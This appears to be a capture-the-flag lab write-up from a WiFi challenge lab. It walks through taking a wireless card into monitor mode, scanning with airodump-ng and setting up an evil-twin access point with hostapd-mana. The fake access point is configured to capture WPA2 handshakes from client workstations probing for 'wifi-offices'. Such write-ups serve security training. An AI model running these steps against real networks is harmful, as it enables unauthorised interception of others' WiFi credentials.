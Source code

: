 
## What is the wifi-offices password?
The final challenge in WPA2/PSK. Retrieve the password from the network via a workstation.


### Gather some information
We are starting to kill processes again so that we are not affected by running processes.
```bash
sudo airmon-ng check kill
```
Next we should start monitor mode.
```bash
sudo airmon-ng start wlan0
```
Now we should gather some information about our target.
```bash
sudo airodump-ng wlan0mon --band abg
```

![Image](/assets/img/WriteUp/WiFiChallengeLAB/Pasted image 20231017073037.png){: width="700" height="400" }

We can see that there are two workstations trying to connect to: wifi-offices.

### Create fake AP
We should create a fake Access Point (AP). To this we need to create a configuration file.
```bash
nano hostapd.conf
```
Next we should copy and paste the configuration content into `hostapd-conf`. Some important information in the configuration file are the following items:
- `ssid=wifi-offices`: WiFI networks name as identified from the workstation probes.
- `mana_wpaout=hostapd.hccapx`: location where the WPA handshake will be stored.

```
interface=wlan1
driver=nl80211

hw_mode=g
channel=1
ssid=wifi-offices

mana_wpaout=hostapd.hccapx

wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=12345678
```
After pasting the configuration into the configuration file we should save it. Now we are ready to host the fake AP.
```bash
sudo hostapd-mana hostapd.conf
```
